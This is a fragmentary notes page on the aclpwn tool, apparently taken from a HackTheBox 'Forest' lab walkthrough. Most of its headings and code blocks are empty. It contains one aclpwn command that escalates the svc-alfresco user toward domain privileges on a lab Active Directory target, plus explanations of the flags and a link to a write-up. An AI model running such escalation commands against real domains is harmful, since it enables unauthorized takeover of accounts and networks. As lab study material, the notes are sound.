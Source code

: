 ### aclpwn
```

```

### 
```

```

### 
```
aclpwn -f svc-alfresco@htb.local -ft user -t HTB.LOCAL -d 10.10.10.161 -du <neo4juser> -dp <neo4jpass>
```

https://y4th0ts.medium.com/forest-hackthebox-649658cd9df8

### 
```
f = user we are escalating from, svc-alfresco@htb.local
ft = type (user/computer/domain/group), in our case, user.
t = target or destination. Looking at bloodhound, we will target HTB.LOCAL
d = domain, 10.10.10.161
```

### 
```

```

### 
```

```

### 
```

```